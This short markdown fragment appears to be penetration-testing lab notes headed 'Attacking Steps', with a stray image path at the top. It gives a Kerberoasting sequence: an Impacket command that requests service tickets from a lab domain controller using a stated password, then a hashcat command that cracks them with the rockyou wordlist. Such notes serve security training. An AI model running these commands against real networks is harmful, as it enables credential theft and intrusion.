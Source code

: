 - - -
## Attacking Steps

```python
GetUserSPN.py marvel.local/thor:Password1 -dc-ip 10.10.10.1 -request
```

```sh
hashcat -m 13100 hashes /opt/rockyou.txt
```

- - -
